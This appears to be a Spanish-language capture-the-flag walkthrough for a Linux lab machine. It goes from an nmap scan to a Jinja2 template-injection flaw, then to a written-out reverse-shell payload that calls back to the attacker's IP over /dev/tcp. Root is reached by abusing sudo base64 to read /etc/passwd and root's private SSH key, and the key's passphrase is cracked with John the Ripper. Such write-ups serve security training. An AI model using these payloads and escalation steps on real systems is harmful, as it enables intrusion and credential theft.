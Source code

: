 ## 1. Reconocimiento Inicial con Nmap

Realizamos un escaneo exhaustivo con `nmap` para detectar puertos abiertos, sus versiones y el sistema operativo. Esto nos proporciona una visión general de los servicios expuestos y posibles vulnerabilidades asociadas a sus versiones.

```bash
nmap -O -sC -sV <IP_DEL_OBJETIVO>
```

**Resultados Clave:**

*   `22/tcp open ssh OpenSSH 9.2p1 Debian`: El puerto 22 (estándar para SSH) está abierto, lo que indica que podemos intentar acceder al sistema por esta vía si encontramos credenciales.
*   `80/tcp open http Apache httpd 2.4.59`: El puerto 80 está abierto y ejecuta un servidor web Apache. **La página por defecto de Apache no revela información útil inicialmente.**
*   `8089/tcp open http Werkzeug httpd 2.2.2 (Python 3.11.2)`: El puerto 8089 está abierto y ejecuta un servidor web `Werkzeug` con Python. Este es un punto de interés, ya que las aplicaciones web personalizadas a menudo contienen vulnerabilidades.

## 2. Enumeración Web y Descubrimiento de SSTI

Nos centramos en el puerto 8089, ya que es el servicio más prometedor para encontrar una vulnerabilidad.

### 2.1. Exploración del Puerto 8089

Al acceder a `http://<IP_DEL_OBJETIVO>:8089/`, encontramos una página web simple con un campo de entrada. Al introducir texto como "Hola", la página responde con "Hola Hola". Este comportamiento, donde la entrada del usuario se repite directamente en la salida, es un fuerte indicador de una posible vulnerabilidad de Server-Side Template Injection (SSTI).
![[Verdejo_P_8089.png]]
### 2.2. Confirmación de SSTI con Jinja2

Para confirmar la vulnerabilidad SSTI y determinar el motor de plantillas, probamos una expresión matemática simple dentro de la sintaxis de plantillas de Jinja2, que es común en aplicaciones Python como las que usan Werkzeug.

Introducimos `{{7*7}}` en el campo de entrada. Si la página devuelve `49`, esto confirma la vulnerabilidad SSTI y que el motor de plantillas es Jinja2. Esto significa que la aplicación web procesa la entrada del usuario a través de un motor de plantillas en el servidor sin una validación adecuada, permitiendo la inyección de código de plantilla malicioso.
![[Pasted image 20250807193357.png]]
## 3. Obtención de Reverse Shell (RCE)

Una vez confirmada la SSTI, podemos explotarla para ejecutar comandos en el sistema y obtener una shell inversa.

### 3.1. Ejecución de Comandos Arbitrarios

Utilizamos una carga útil (payload) de Jinja2 que nos permite ejecutar comandos del sistema operativo. Este payload utiliza la capacidad de Jinja2 para acceder a objetos globales de Python y ejecutar funciones del módulo `os`.

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__(\'os\').popen(\'id\').read() }}
```

Al introducir este payload en el campo de entrada, la página debería devolver la salida del comando `id`, confirmando la ejecución de comandos.

### 3.2. Ejecución de Reverse Shell

Ahora que podemos ejecutar comandos, inyectamos un payload de reverse shell para obtener una conexión interactiva a nuestra máquina atacante.

**Payload de Reverse Shell (Jinja2):**

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__(\'os\').popen(\'bash -c \\\'bash -i >& /dev/tcp/<IP_DE_TU_KALI>/443 0>&1\\\'\').read() }}
```

*   `os.popen()`: Ejecuta un comando en una subshell.
*   `bash -c '...'`: Ejecuta un comando bash.
*   `bash -i`: Inicia una shell interactiva.
*   `>& /dev/tcp/<IP_DE_TU_KALI>/443 0>&1`: Redirige la entrada y salida estándar a una conexión TCP a la IP de nuestra máquina atacante en el puerto 443.

**En la Máquina Atacante:**

Antes de introducir el payload, configuramos un `netcat` listener en nuestra máquina atacante para recibir la conexión entrante en el puerto 443.

```bash
nc -lvnp 443
```

Después de configurar el listener, introducimos el payload en el campo de entrada de la página web. Esto ejecutará el código y nos dará una shell inversa en nuestra máquina atacante. Confirmamos que estamos como el usuario `www-data`.

## 4. Escalada de Privilegios

Una vez que tenemos una shell como `www-data`, el objetivo es escalar privilegios a `root`.

### 4.1. Verificación de Permisos Sudo

Verificamos qué comandos puede ejecutar el usuario actual con `sudo` sin necesidad de contraseña. Esto se hace con el comando `sudo -l`.

```bash
sudo -l
```

**Resultados Clave:**

*   `(root) NOPASSWD: /usr/bin/base64`

Esto significa que el usuario actual puede ejecutar el binario `/usr/bin/base64` como `root` sin necesidad de introducir su contraseña. El comando `base64` se utiliza para codificar y decodificar datos, y puede ser abusado para leer o escribir archivos con privilegios elevados.

### 4.2. Abuso de `base64` para Modificar `/etc/passwd`

La técnica para escalar privilegios con `base64` cuando tiene permisos `NOPASSWD` en `sudo` implica modificar el archivo `/etc/passwd` para eliminar la contraseña del usuario `root`. Esto nos permitirá iniciar sesión como `root` sin contraseña.

1.  **Leer `/etc/passwd`:** Primero, leemos el contenido de `/etc/passwd` utilizando `base64` con `sudo` y lo decodificamos.

    ```bash
    LFILE=/etc/passwd
    sudo base64 "$LFILE" | base64 --decode
    ```

    Esto nos mostrará el contenido del archivo, incluyendo la línea de `root`:
    `root:x:0:0:root:/root:/bin/bash`

2.  **Modificar el contenido:** Copiamos el contenido de `/etc/passwd` a un archivo temporal en nuestra máquina atacante (o en el sistema comprometido si tenemos permisos de escritura en algún directorio). Luego, eliminamos la `x` de la entrada de `root`. La línea debe cambiar a `root::0:0:root:/root:/bin/bash`.

3.  **Codificar el contenido modificado:** Codificamos el archivo modificado de nuevo a Base64 y lo guardamos en un archivo.

4.  **Sobrescribir `/etc/passwd` con `base64`:** Utilizamos `base64` con `sudo` para decodificar el contenido modificado y redirigir la salida al archivo `/etc/passwd`.
```bash
sudo -u root /usr/bin/base64 --decode passwd.txt > /etc/passwd
```

Como no podemos modificar este archivo vamos a buscar la clave de ssh

### 4.3. Escalada de Privilegios Alternativa (Clave SSH)

Si la modificación de `/etc/passwd` no es posible o preferible, otra vía para escalar privilegios es buscar claves SSH privadas del usuario `root`.

1.  **Leer la clave SSH privada de `root`:** Utilizamos `base64` con `sudo` para leer el archivo `id_rsa` de `root` y lo decodificamos.

    ```bash
    sudo -u root base64 /root/.ssh/id_rsa | base64 --decode
    ```

    Esto nos devolverá el contenido de la clave SSH privada de `root`.

2.  **Guardar la clave:** Copiamos el contenido de la clave SSH a un archivo local en nuestra máquina atacante (por ejemplo, `id_rsa_root`).

3.  **Establecer permisos:** Las claves SSH privadas requieren permisos estrictos para ser utilizadas.

    ```bash
    chmod 600 id_rsa_root
    ```

4.  **Intentar conexión SSH como `root`:** Intentamos conectarnos vía SSH como `root` utilizando la clave privada.

    ```bash
    ssh -i id_rsa_root root@<IP_DEL_OBJETIVO>
    ```

    La clave está protegida con una frase de contraseña.

### 4.4. Cracking de la Frase de Contraseña

Si la clave SSH está protegida con una frase de contraseña, podemos intentar crackearla utilizando `ssh2john` y `john` (John the Ripper).

1.  **Convertir la clave a formato John:**

    ```bash
    ssh2john id_rsa_root > key.hash
    ```

2.  **Crackear la frase de contraseña:**

    ```bash
    john key.hash --wordlist=/path/to/wordlist/rockyou.txt
    ```

    Una vez crackeada, `john --show key.hash` nos mostrará la frase de contraseña (por ejemplo, `honda1`).

3.  **Conexión SSH con la frase de contraseña:** Volvemos a intentar la conexión SSH con la clave y la frase de contraseña obtenida.

    ```bash
    ssh -i id_rsa_root root@<IP_DEL_OBJETIVO>
    ```

    Una vez dentro, `whoami` confirmará el acceso como `root`.
